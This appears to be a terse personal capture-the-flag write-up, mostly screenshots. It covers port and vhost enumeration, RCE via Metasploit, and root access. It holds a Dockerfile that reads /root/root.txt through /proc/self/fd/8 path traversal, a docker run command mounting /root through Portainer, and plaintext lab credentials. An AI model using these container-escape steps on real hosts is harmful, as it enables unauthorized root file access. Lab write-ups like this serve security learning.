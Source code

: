 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
Creds
- ` city_adminHl5H : Main_password!!** `

## External
### Enumeration
- There are 3 ports open, but port 80 doesnt have anything except static website.
	- ![](https://i.imgur.com/KGxciUT.png)
- on Port 8000
	- ![](https://i.imgur.com/3B0XY8E.png)
	- ![](https://i.imgur.com/15NdC1p.png)
	- ![](https://i.imgur.com/jEbKsiJ.png)
- ![](https://i.imgur.com/2gksyd3.png)
- Tried many Fuzzes, Directory subdomain but it worked on VHOST. ![](https://i.imgur.com/LvlNvS5.png)
- ![](https://i.imgur.com/WEScebX.png)	
### Gaining Access
- Searched for the version
	- ![](https://i.imgur.com/kQeniOM.png)
- ![](https://i.imgur.com/gh7BnVb.png)
- ` city_adminFoN8 : Main_password!!** `
- I Got RCE with Metasploit.![](https://i.imgur.com/NE9bzkn.png)
	- ![](https://i.imgur.com/641DpAg.png)
## Internal
### Enumeration

![](https://i.imgur.com/9Ta9Lmr.png)
- ![](https://i.imgur.com/vQ9GJwL.png)
### Gaining Access
![](https://i.imgur.com/AWInaLe.png)

### Maintaining Access
![](https://i.imgur.com/mSy0k9Q.png)

![](https://i.imgur.com/98BZnrY.png)

![](https://i.imgur.com/UrgiKqY.png)

>[!danger] Matthew Password ???
- Using the `matthew : piper123` Logged in![](https://i.imgur.com/yMWWxEZ.png)
```shell
FROM ubuntu:latest 
WORKDIR /proc/self/fd/8
RUN cat ../../../../root/root.txt
```
![](https://i.imgur.com/HoLNBxK.png)
![](https://i.imgur.com/9GqOWbP.png)
# Random Notes
```c
# Use the official Node.js 14 image as the base image 
FROM node:14 

# Set the working directory in the container 

WORKDIR /app 

# Copy package.json and package-lock.json (if available) 

COPY package*.json ./ 

# Install dependencies 

RUN npm install 

# Copy the rest of the application code 

COPY . . 

# Expose the port the app runs on 

EXPOSE 3000 # Define the command to run the app when the container starts 

CMD ["node", "app.js"]
```



	/opt/portainer/docker run --name rexder -v /root:/app/tmp -p 3000:3000 reximg

/run/containerd/s/e73bf0677d4a30dac92eede230d9dab11ded408173c5f142d9455af9278da302
/run/containerd/containerd.sock.ttrpc
/run/docker.sock



https://rioasmara.com/2021/08/15/use-portainer-for-privilege-escalation/